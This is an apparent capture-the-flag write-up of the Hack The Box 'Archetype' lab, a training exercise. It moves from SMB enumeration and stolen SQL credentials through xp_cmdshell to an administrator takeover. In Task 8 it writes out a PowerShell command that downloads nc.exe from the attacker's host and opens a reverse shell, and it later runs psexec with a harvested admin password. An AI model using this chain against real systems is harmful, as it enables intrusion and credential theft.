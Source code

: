 ```yaml
---
title: 'Archetype - HTB Starting Point Tier 2'
description: 'Writeup for Archetype box'
pubDate: 'Dec 13 2024'
heroImage: '/blog-placeholder-1.jpg'
---
```


## Archetype
*MSSQL, SMB, PS1, RCE*

**Task 1**  
Which TCP port is hosting a database server?

```bash
kali$ nmap -sV $TARGET --min-rate=2000

PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

Looks like the answer is 1433.

From the list above:
* 135: RPC. (Low level and insecure network comms to invoke a remote procedure)
* 139: Typically used by SMB to communicate with old devices. This is for SMB over NBT (NetBIOS over TCP/IP)
* 445: SMB server

This [stack overflow answer](https://superuser.com/a/694480) provides a great summary of the relationship between SMB and NetBIOS. In short: SMB and NetBIOS are different protocols, however to support legacy Windows systems, SMB can use the NetBIOS API to talk with older machines. See the diagram in the link.


**Task 2**  
What is the name of the non-Administrative share available over SMB?

```bash
kali$ smbclient -L $TARGET -N

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	backups         Disk
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
```

Looks like it is `backups`. (N.b. admin shares typically have a `$` suffix)


**Task 3**  
What is the password identified in the file on the SMB share?

```bash
kali$ smbclient //$TARGET/backups

smb: \> ls
  .                                   D        0  Mon Jan 20 07:20:57 2020
  ..                                  D        0  Mon Jan 20 07:20:57 2020
  prod.dtsConfig                     AR      609  Mon Jan 20 07:23:02 2020
		5056511 blocks of size 4096. 2522480 blocks available

smb: \> print prod.dtsConfig
NT_STATUS_ACCESS_DENIED opening remote file prod.dtsConfig

smb: \> get prod.dtsConfig
getting file \prod.dtsConfig of size 609 as prod.dtsConfig (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
```

No permissions were allowed to print the file, however I could use get instead. By reading the file contents, we find this spicy connection string with these credentials `ARCHETYPE\sql_svc; M3g4c0rp123`

```xml
 <ConfiguredValue>
    Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;
</ConfiguredValue>
 ```


**Task 4**  
What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?

Impacket is designed to deal with network packets, "providing low-level programmatic access". Looking through the [repo](https://github.com/fortra/impacket/tree/master), I can see `mssqlshell.py` and `mssqlattack.py` example files. The attack utilises the shell script. (N.b. These are classes, not scripts! :facepalm:). Looks like the script I'm after is `mssqlclient`. In Kali, this is already installed and on the path. It can be executed by `impacket-mssqlclient`.

```bash
kali$ impacket-mssqlclient ARCHETYPE/sql_svc:M3g4c0rp123@$TARGET -windows-auth
```

> We need the `-windows-auth` flag because the account belongs to the machine, not to the SQL service. As per the help menu: "this flag is specified to use Windows Authentication". It's like when you run a DB on your windows machine - there is often a default provisioned account specific to SQL, alternatively, you can authenticate to the DB via your machine/domain controller.

**Task 5**  
What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?

[`xp_cmdshell`](https://learn.microsoft.com/en-us/sql/relational-databases/system-stored-procedures/xp-cmdshell-transact-sql?view=sql-server-ver16)


**Task 6**  
What script can be used in order to search possible paths to escalate privileges on Windows hosts?

`winpeas` apparently :shrug:


**Task 7**  
What file contains the administrator's password?

At this point, I can execute commands via `xp_cmdshell`. It seems pertinent to create a reverse shell. This will allow us a more stable connection and remove the need to type `xp_cmdshell` on every line. From the writeups I researched online, it seems like the answer to this question only comes by solving the next two tasks (including obtaining a reverse shell, looking for privesc opportunities, and the like). After all of that, the answer is `ConsoleHost_History.txt` in the `~/AppData/Roaming/...PSReadline/` folder


**Task 8**  
Submit user flag

```
# Kali
kali$ python3 -m http.server 80 &
kali$ nc -lvnp 443

# mssql client
mssql> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget 10.10.15.212/nc.exe -outfile nc.exe; .\nc.exe -e cmd.exe 10.10.15.212 443"

# Kali netcat session (reverse shell)
C:\Users\sql_svc\Downloads> type ..\Desktop\user.txt
3e7b102e78218e935bf3f4951fec21a3
```

**Task 9**  
Submit root flag

Now that we have a reverse shell, we can download winPEAS from our attacking machine

```
C:\Users\sql_svc\Downloads> powershell -c wget http://10.10.15.212/winPEASx64.exe -outfile winPEASx64.exe
C:\Users\sql_svc\Downloads> .\winPEASx64.exe
```

Looking through the output of winPEAS, we can take a look for anything interesting that we could easily leverage. Unfortunately for me, unlike the writeup for the box, winPEAS did not suggest the `ConsoleHost_History.txt` file. In any case, looking at the file, we find some credentials, as seen below. To gain admin, we can use the `runas` command

```cmd
C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine>type ConsoleHost_history.txt
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

From here, I tried to make use of a `runas` command, however it would not let me type in a password. As a result, I instead used impacket's `psexec` script.

```
kali$ impacket-psexec administrator@$TARGET

Password: ***

C:\Windows\system32> whoami
nt authority\system
C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
b91ccec3305e98240082d4474b848528
```
